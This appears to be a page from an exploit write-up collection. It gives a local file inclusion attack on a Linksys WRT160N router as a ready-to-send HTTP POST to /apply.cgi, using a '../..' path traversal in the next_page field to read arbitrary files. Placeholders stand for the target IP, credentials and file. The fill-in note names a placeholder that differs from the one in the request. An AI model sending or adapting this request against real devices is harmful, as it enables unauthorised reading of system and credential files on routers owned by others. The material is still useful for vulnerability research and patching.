 +++
title = "Local File Inclusion"
date = 2021-10-18T20:39:54-06:00
weight = 5
+++

## Local File Inclusion
Make an HTTP POST request to the router like the following:
```
POST /apply.cgi HTTP/1.1
Host: {TARGET_IP}
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de-de,de;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Authorization: Basic {BASE_64_CREDENTIALS}
Content-Type: application/x-www-form-urlencoded
Content-Length: 181
Connection: close

submit_type=wsc_method2&change_action=gozila_cgi&next_page=../..{FILE}
```
**NOTE:** Replace {TARGET_IP}, {BASE_64_CREDENTIALS}, {FILE_TO_READ} with the valid IP, credentials, and file to read respectively

![LFI Request](resources/WRT160N-LFI-Request.png)
![LFI Response](resources/WRT160N-LFI-Response.png)
